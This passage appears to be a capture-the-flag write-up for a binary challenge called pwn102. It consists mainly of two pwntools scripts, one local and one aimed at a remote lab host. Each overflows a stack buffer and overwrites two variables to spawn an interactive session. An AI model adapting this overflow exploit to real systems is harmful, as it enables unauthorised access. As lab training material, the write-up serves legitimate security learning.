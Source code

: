 ## Exploit (local)
```python
from pwn import *

context.binary = binary = './pwn102.pwn102'

padding_range = 0x70-0x08
padding = "\x41"*padding_range

# code = 0x0000c0d3 => \xd3\xc0\x00\x00
# coffee = 0x00c0ff33 => \x33\xff\xc0\x00
code = "\xd3\xc0\x00\x00"
coffee = "\x33\xff\xc0\x00"

payload = padding + code + coffee

proc = process('./pwn102.pwn102')
proc.recvline('Am I right?')
proc.send(payload)
proc.recv()
proc.interactive()
```

![picture 17](/assets/images/ab981d4d0a19c06e62e285b7de1f1367974955898fe901ac193346f1c2b7c233.png)  

## Exploit (Remote)

```python
from pwn import *

context.binary = binary = './pwn102.pwn102'

padding_range = 0x70-0x08
padding = "\x41"*padding_range

# code = 0x0000c0d3 => \xd3\xc0\x00\x00
# coffee = 0x00c0ff33 => \x33\xff\xc0\x00
code = "\xd3\xc0\x00\x00"
coffee = "\x33\xff\xc0\x00"

payload = padding + code + coffee

#proc = process('./pwn102.pwn102')
proc = remote('10.10.227.21',9002)
proc.recvline('Am I right?')
proc.send(payload)
proc.recv()
proc.interactive()
```
